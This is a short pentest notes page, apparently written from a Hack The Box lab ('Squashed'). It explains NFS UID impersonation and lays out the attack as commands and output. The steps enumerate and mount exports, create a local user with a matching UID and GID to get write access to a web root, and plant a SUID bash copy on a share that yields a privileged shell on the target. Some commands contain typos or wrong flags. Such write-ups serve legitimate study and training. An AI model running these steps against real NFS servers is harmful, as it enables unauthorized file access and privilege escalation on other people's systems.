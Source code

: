 ```yaml
---
description: >-
  NFS has no protocol for authorization or authentication, making it a
  vulnerable for misconfiguration and therefore exploitation.
---
```


# NFS Impersonation

#### The vulnerability

NFS is a server/client system enabling users to share files and directories across a network and allowing those shares to be mounted locally. In this case the user and group id for the share is 1001. NFS looks at ID's and use the system for it. If we make a user with user 1001 and groupid 1001 that user would own those files.&#x20;

This vulnerbality can be found in: [https://app.hackthebox.com/machines/Squashed](https://app.hackthebox.com/machines/Squashed)

```bash
# List NFS shares
$ showmount -e 10.10.11.191                        
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

Mount the share

```bash
# Mounting the share
sudo mount -t nfs 10.10.11.191:/var/www/html /mnt

# Checking access
find /mnt -ls                       
   133456      4 drwxr-xr--   5 2017     www-data     4096 Oct 17 09:15 /mnt
find: ‘/mnt/.htaccess’: Permission denied
find: ‘/mnt/index.html’: Permission denied
find: ‘/mnt/images’: Permission denied
find: ‘/mnt/css’: Permission denied
find: ‘/mnt/js’: Permission denied
```

Checking who's owner

```bash
# -d flag for listing only directory
ls -ld /mnt
drwxr-xr-- 5 2017 www-data 4096 Oct 17 09:15 /mnt

# Check group ID
$ cat /etc/group | grep www-data
www-data:x:33:
```

We find the userid is 2017 and groupid to be 33. So by making a dummy user with userid 2017 we get access to the files.

```bash
# Set userid for user
$ sudo useradd dummy
$ sudo usermod -u 2017 dummy
$ sudo groupmod -u 33 dummy          

# Drop into bash                                                                                                                                                                                                 
$ sudo su dummy -c bash 
```

Now we have access to the files and folders, even write access.

```bash
# Write simple html
echo "Powned" > /mnt/powned.html
```

<figure><img src="../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

## Another example

In /etc/exports you find a configuration file used by NFS server. It defines directories that are shared and specifies access and permissions, as well as restrictions for those shares.

```sh
# Example
cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/opt/share *(rw,no_subtree_check)    
```

If we create a user with the same uid and then copy bash in to the mounted folder the binary will be owned by the target user. We will copy /bin/bash from target to nfs share then with with a users of targets id copy it to /tmp then replacing the bash file on the share again. Add SUID and then run from target.

```sh
# Find out ID of user 
id username
uid=902601108(mczen)

# Allow UID creation over 60000
Edit /etc/logins.defs and change the UID_MAX value

# Add user on my machine
sudo useradd zen -u 902601108
uid=902601108(zen) gid=1001(zen) groups=1001(zen)

# An my attacker
cp bash /tmp/
rm -rf bash
cp /tmp/bash .
chmod +xs bash

# On target
./bash -p
```




